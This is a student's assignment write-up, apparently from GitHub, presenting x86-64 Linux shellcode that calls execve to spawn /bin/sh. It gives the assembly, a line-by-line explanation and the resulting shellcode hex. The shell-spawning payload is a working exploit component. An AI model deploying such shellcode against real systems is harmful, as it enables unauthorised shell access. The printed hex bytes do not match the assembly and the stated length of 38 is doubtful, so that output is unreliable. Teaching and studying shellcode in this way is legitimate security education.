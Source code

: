 # Summary
For this assignment the goal was to work in a *NIX enviorment along side the GCC C-Compiler. The objective of this assignment was to use the linux system to call exec and replace the current running process with a terminal shell (/bin/sh)
Several files were provided to assist in the assignment including a makefile, a C file called shellcode_tester.c, and a python file called x_shellcode.py.
Our challange was to write assembly code (shellcode.S) to use the syscall instruction to ask the OS to execute the shell at /bin/sh using execve.

# My assembly code:

.global _start
.text

_start:

# zero-out rax
xor %rax, %rax 
# null byte
push %rax
# /bin/sh in hex in LIFO
mov $0x68732f6e69622f2f, %rbx
push %rbx

# pointer to /bin/sh
mov %rsp, %rdi
# zero-out rax
xor %rax, %rax
# Null byte
push %rax
# Pointer to /bin/sh for arguement array
push %rdi
# Pointer to arguement array
mov %rsp, %rsi
# system call value
mov $59, %rax
# null
xor %rdx, %rdx

syscall 

# Code Breakdown

 xor %rax, %rax: the first instruction is to clear or zero out the register %rax by XORing it with itself, providing a null byte.
 
 push %rax: pushes a null byte onto the stack and will be used to terminate string /bin/sh

 mov $0x68732f6e69622f2f: %rbx will move the hex value representation of /bin/sh in lifo order into register %rbx.

 push %rbx:pushes the string value /bin/sh onto the stack

 mov %rsp, %rdi: setting up the first arguement, rsp points to the top of the stack, where /bin/sh is located, this moves the stack pointer into rdi where the filename of execve is expected

 xor %rax, %rax: again nullifies the register to push onto the arguement array

 push %rax: pushes onto the arguement array

 push %rdi: pushes the pointer to /bin/sh in rdi on to the stack

 mov %rsp, %rsi: second arguement, moves the current stack pointer and is used for the execve system call

 mov $59, %rax: execve systerm call number in Linux

 xor %rdx, %rdx: Zero out or clear for third arguement 

 syscall: invokes the system call.

 # Total Bytes

 Running x_shellcode.py gave me the results of:

 "Generated shellcode is of length: 38
 4831c05048bb2f262696e2f7368534889e74831c050574889e648c7c03b0000004831d20f05"
 

 

 

 

 
 

 
